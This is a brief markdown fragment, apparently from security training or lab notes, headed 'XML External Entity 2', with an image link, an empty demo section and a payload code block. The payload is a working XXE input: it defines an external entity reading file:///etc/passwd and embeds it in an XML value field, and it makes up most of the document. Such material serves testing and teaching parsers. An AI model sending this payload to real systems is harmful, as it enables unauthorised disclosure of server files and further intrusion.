

#### XML External Entity 2

- Demo




- Payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<uservalue>
<value>&xxe;</value>
</uservalue>
```